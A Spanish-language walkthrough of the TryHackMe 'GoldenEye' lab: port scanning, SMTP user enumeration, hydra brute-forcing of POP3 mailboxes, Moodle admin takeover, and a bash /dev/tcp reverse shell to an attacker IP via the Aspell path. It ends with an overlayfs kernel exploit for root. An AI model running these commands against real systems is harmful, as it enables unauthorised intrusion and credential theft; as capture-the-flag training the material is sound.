



# GoldenEye - TryHackMe

## Reconocimiento

Hagamos un escaneo de puertos con nmap para ver que servicios están corriendo en la máquina.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n 10.129.159.35 -Pn -oG allPorts

PORT      STATE SERVICE REASON
25/tcp    open  smtp    syn-ack ttl 62
80/tcp    open  http    syn-ack ttl 62
55006/tcp open  unknown syn-ack ttl 62
55007/tcp open  unknown syn-ack ttl 62
```

Veamos las versiones de los servicios que están corriendo en la máquina.

```bash
nmap -sCV -p25,80,55006,55007 10.129.159.35

PORT      STATE SERVICE     VERSION
25/tcp    open  smtp        Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
|_ssl-date: TLS randomness does not represent time
80/tcp    open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: GoldenEye Primary Admin Server
55006/tcp open  ssl/unknown
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-04-24T03:23:52
|_Not valid after:  2028-04-23T03:23:52
55007/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: USER AUTH-RESP-CODE CAPA UIDL PIPELINING SASL(PLAIN) TOP RESP-CODES STLS
|_ssl-date: TLS randomness does not represent time
```

Vemos que hay un servidor web corriendo en el puerto 80, un servidor SMTP en el puerto 25, y dos servicios desconocidos en los puertos 55006 y 55007. El servicio en el puerto 55007 es un servidor POP3.

Al entrar en la web http://10.129.159.35/



Podemos navegar a /sev-home/ y nos pide un usuario y contraseña.



Al ver en la pestaña Network.


Vamos a 

```javascript
//Boris, make sure you update your default password. 
//My sources say MI6 maybe planning to infiltrate. 
//Be on the lookout for any suspicious network traffic....
//
//I encoded you p@ssword below...
//
//&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
//
//BTW Natalya says she can break your codes
```

Vemos que la contraseña era la correspondiente al decimal en ASCII y es "InvincibleHack3r" para el usuario "Boris".

Iniciamos sesión con el usuario y contraseña y encontramos esta página:


Veamos el servicio 55007 POP3, podemos conectarnos con telnet y ver que podemos encontrar.

```bash
USER boris
+OK 
PASS InvincibleHack3r
-ERR [AUTH] Authentication failed.
```

Vamos a usar hydra para hacer un ataque de fuerza bruta al servicio POP3.

```bash
hydra -l boris -P /usr/share/wordlists/rockyou.txt pop3://10.129.159.35:55007
```

Investigando más a fondo, el servicio pop3 usa ssl en el puerto 55006 y podemos usar el siguiente comando para hacer un ataque de fuerza bruta con hydra.

```bash
hydra -l boris -P /usr/share/wordlists/rockyou.txt pop3s://10.129.159.35:55006
```

Veamos con nmap los comandos y usuarios existentes en el servicio SMTP.

```bash
nmap -p 25 -sC -sV --script smtp-commands,smtp-enum-users 10.129.159.35

PORT   STATE SERVICE VERSION
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
| smtp-enum-users: 
|_  Method RCPT returned a unhandled status code.
```

Vemos que VRFY está habilitado, por lo que podemos usarlo para enumerar usuarios.

```bash
VRFY boris
252 2.0.0 boris
```

252 2.0.0 indica que el usuario existe, mientras que 550 5.1.1 indica que el usuario no existe.

Usamos este script para enumerar usuarios en el servicio SMTP.

```bash
smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t 10.129.159.35

10.129.159.35: backup exists
10.129.159.35: bin exists
10.129.159.35: daemon exists
10.129.159.35: games exists
10.129.159.35: gnats exists
10.129.159.35: irc exists
10.129.159.35: libuuid exists
10.129.159.35: list exists
10.129.159.35: lp exists
10.129.159.35: mail exists
10.129.159.35: man exists
10.129.159.35: messagebus exists
10.129.159.35: news exists
10.129.159.35: nobody exists
10.129.159.35: postfix exists
10.129.159.35: postgres exists
10.129.159.35: postmaster exists
10.129.159.35: proxy exists
10.129.159.35: ROOT exists
10.129.159.35: root exists
10.129.159.35: sync exists
10.129.159.35: sys exists
10.129.159.35: syslog exists
10.129.159.35: uucp exists
10.129.159.35: www-data exists
```

Vemos que en el código fuente de http://10.129.159.35/sev-home/ hay un mensaje:

```html
Qualified GoldenEye Network Operator Supervisors: 
Natalya
Boris
```

Por lo que podemos deducir que los usuarios válidos son "Natalya" y "Boris".

```bash
VRFY natalya
252 2.0.0 natalya
```

Nos conectamos con ssl al puerto 55006

```bash
openssl s_client -connect 10.129.159.35:55006 -quiet

depth=0 O=Dovecot mail server, OU=localhost, CN=localhost, emailAddress=root@localhost
+OK GoldenEye POP3 Electronic-Mail System
```

Usampos el comando USER para enviar el nombre de usuario y luego el comando PASS para enviar la contraseña.

```bash
USER boris
+OK
PASS InvincibleHack3r
-ERR [AUTH] Authentication failed.
```

Seguimos intentando fuerza bruta, ahora con otro diccionario llamado fasttrack.txt

```bash
hydra -l boris -P /usr/share/wordlists/fasttrack.txt pop3://10.129.159.35:55007 -t 32 -I -f -vV

[55007][pop3] host: 10.129.159.35   login: boris   password: secret1!
```

Entramos en pop3 con el usuario boris y la contraseña secret1! 

```bash
USER boris
+OK
PASS secret1!
+OK Logged in.

LIST
+OK 3 messages:
1 544
2 373
3 921

RETR 1
+OK 544 octets
Return-Path: <root@127.0.0.1.goldeneye>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
	by ubuntu (Postfix) with SMTP id D9E47454B1
	for <boris>; Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
Message-Id: <20180425022326.D9E47454B1@ubuntu>
Date: Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
From: root@127.0.0.1.goldeneye

Boris, this is admin. You can electronically communicate to co-workers and students here. I'm not going to scan emails for security risks because I trust you and the other admins here.

RETR 2  
+OK 373 octets
Return-Path: <natalya@ubuntu>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
	by ubuntu (Postfix) with ESMTP id C3F2B454B1
	for <boris>; Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
Message-Id: <20180425024249.C3F2B454B1@ubuntu>
Date: Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
From: natalya@ubuntu

Boris, I can break your codes!

RETR 3
+OK 921 octets
Return-Path: <alec@janus.boss>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from janus (localhost [127.0.0.1])
	by ubuntu (Postfix) with ESMTP id 4B9F4454B1
	for <boris>; Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
Message-Id: <20180425025235.4B9F4454B1@ubuntu>
Date: Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
From: alec@janus.boss

Boris,

Your cooperation with our syndicate will pay off big. Attached are the final access codes for GoldenEye. Place them in a hidden file within the root directory of this server then remove from this email. There can only be one set of these acces codes, and we need to secure them for the final execution. If they are retrieved and captured our plan will crash and burn!

Once Xenia gets access to the training site and becomes familiar with the GoldenEye Terminal codes we will push to our final stages....

PS - Keep security tight or we will be compromised.
```

Vemos que un tal alec nos envía un correo con los códigos de acceso finales para GoldenEye y nos pide que los coloquemos en un archivo oculto dentro del directorio raíz del servidor y luego eliminemos el correo electrónico.

También nos dice que una tal Xenia obtendrá acceso al sitio de entrenamiento y se familiarizará con los códigos del terminal GoldenEye.

Vamos a seguir buscando contraseñas, ahora con el usuario natalya y el diccionario fasttrack.txt

```bash
hydra -l natalya -P /usr/share/wordlists/fasttrack.txt pop3://10.129.159.35:55007 -t 32 -I -f -vV

[55007][pop3] host: 10.129.159.35   login: natalya   password: bird
```

```bash
hydra -l xenia -P /usr/share/wordlists/fasttrack.txt pop3://10.129.159.35:55007 -t 32 -I -f -vV
```

```bash
hydra -l alec -P /usr/share/wordlists/fasttrack.txt pop3://10.129.159.35:55007 -t 32 -I -f -vV
```

Nos metemos como natalya y vemos 2 correos:

```bash
RETR 1
+OK 631 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from ok (localhost [127.0.0.1])
	by ubuntu (Postfix) with ESMTP id D5EDA454B1
	for <natalya>; Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
Message-Id: <20180425024542.D5EDA454B1@ubuntu>
Date: Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
From: root@ubuntu

Natalya, please you need to stop breaking boris' codes. Also, you are GNO supervisor for training. I will email you once a student is designated to you.

Also, be cautious of possible network breaches. We have intel that GoldenEye is being sought after by a crime syndicate named Janus.
```

```bash
RETR 2
+OK 1048 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from root (localhost [127.0.0.1])
	by ubuntu (Postfix) with SMTP id 17C96454B1
	for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
Message-Id: <20180425031956.17C96454B1@ubuntu>
Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
From: root@ubuntu

Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

Ok, user creds are:

username: xenia
password: RCP90rulez!

Boris verified her as a valid contractor so just create the account ok?

And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....

Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.
```

Tenemos las credenciales `xenia:RCP90rulez!` para el usuario xenia. Ahora podemos iniciar sesión con xenia en http://severnaya-station.com/gnocertdir/



Vemos que es un moodle y podemos ver que hay un curso llamado "Intro to GoldenEye", nos pide usuario y contraseña, pero ya tenemos las credenciales de xenia, así que iniciamos sesión con esas credenciales.

Vemos que no nos deja meternos al curso y que tenemos mensajes con un tal `Doak`

Nos da su email, vamos a intentar hacer fuerza bruta.

```bash
hydra -l doak -P /usr/share/wordlists/fasttrack.txt pop3://10.129.159.35:55007 -t 32 -I -f -vV

[55007][pop3] host: 10.129.159.35   login: doak   password: goat
```

Nos loggeamos con doak y vemos que tiene 1 correo:

```bash
RETR 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
	by ubuntu (Postfix) with SMTP id 97DC24549D
	for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: 4England!
```

Tenemos las credenciales `dr_doak:4England!` para el usuario dr_doak. Ahora podemos iniciar sesión con dr_doak en http://severnaya-station.com/gnocertdir/

Vemos que tiene una carpeta llamada "for james" con un fichero `secret.txt`

```
007,

I was able to capture this apps adm1n cr3ds through clear txt. 

Text throughout most web apps within the GoldenEye servers are scanned, so I cannot add the cr3dentials here. 

Something juicy is located here: /dir007key/for-007.jpg

Also as you may know, the RCP-90 is vastly superior to any other weapon and License to Kill is the only way to play.
```

Vamosa a http://severnaya-station.com//dir007key/for-007.jpg y vemos esto.


Vamos a realizar esteganografía con la imagen.

```bash
steghide extract -sf for-007.jpg
binwalk -e for-007.jpg
stegseek for-007.jpg /usr/share/wordlists/rockyou.txt
exiftool for-007.jpg
```

COn exiftool encontramos información interesante:

```bash
Image Description : eFdpbnRlcjE5OTV4IQ==

echo "eFdpbnRlcjE5OTV4IQ==" | base64 -d; echo
xWinter1995x!
```

Vemos que la contraseña es `xWinter1995x!`, probamos con el usuario admin en el moodle y tenemos acceso a todo como administrador.

Vamos a hacer uso de CVE-2021-21809 Moodle SpellChecker Path Authenticated RCE mediante metasploit para obtener acceso a la máquina.

```bash
use exploit/multi/http/moodle_spelling_path_rce

set lhost 192.168.154.96
set rhosts 10.129.159.35
set password xWinter1995x!
set targeturi http://severnaya-station.com/gnocertdir
# admin esta por defecto
```

No nos funciona, pero Aspell nos deja poner nuestro código que será ejecutado en el servidor, así que vamos a usar un payload de reverse shell.

```bash
bash -c 'bash -i >& /dev/tcp/192.168.154.96/4444 0>&1'
```

Lo metemos en lo que nos aparece si ponemos en el buscador aspell. Luego vamos a plugins > text editors > edit HTML TinyMCE y ponemos PSpellShell.

Ahora vamos a crear un nuevo post y le damos a corrección ortográfica y nos ejecuta el payload y obtenemos una reverse shell.

```bash
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Vamos a realizar un tratamiento de la TTY.

```bash
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 cols 182
```

Veamos como escalar de privilegios:

```bash
uname -a
Linux ubuntu 3.13.0-32-generic
```

La máquina es vulnerable a overlayfs:

```bash
searchsploit overlayfs

Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation | linux/local/37292.c
```

Para compilarlo en el sistema deberemos compilarlo en un ubuntu con el mismo kernel, para ello usaremos docker.

```bash
docker run --rm -it -v $(pwd):/workspace ubuntu:14.04 bash

apt-get update
apt-get install -y gcc build-essential

cd /workspace
gcc -o overlayfs overlayfs.c

```

SIn embargo al ejecutarlo en la máquina obtenemos:

spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 1: gcc: not found
couldn't create dynamic library

Esto es porque no tenemos gcc en la máquina, para solventarlo vemos que existe cc, por lo que modificamos el código fuente de overlayfs.c y cambiamos gcc por cc.

```bash
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
```

Vemos la .flag.txt en el directorio root y terminamos la máquina.